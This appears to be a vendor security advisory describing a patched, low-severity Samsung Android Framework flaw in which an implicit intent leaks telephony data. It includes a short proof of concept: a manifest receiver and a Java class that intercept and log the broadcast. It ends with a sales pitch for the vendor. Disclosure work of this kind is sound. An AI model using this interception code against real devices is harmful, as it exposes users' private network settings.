

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Android Framework</td>
    </tr>
    <tr>
        <td>Library path</td>
        <td><code>/system/framework/telephony-common.jar</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.04</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.12.12</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$330</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured discovered the use of an implicit intent in the Samsung Android Framework code in the `com/android/internal/telephony/dataconnection/DcTracker.java` file, which exposed telephony data such as roaming settings, APNs and so on.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<receiver android:name=".MyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.samsung.intent.action.BIG_DATA_MOBILE_DATA" />
    </intent-filter>
</receiver>
```

File `MyReceiver.java`:
```java
public class MyReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        DumpUtils.dump(intent, context.getClassLoader());
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.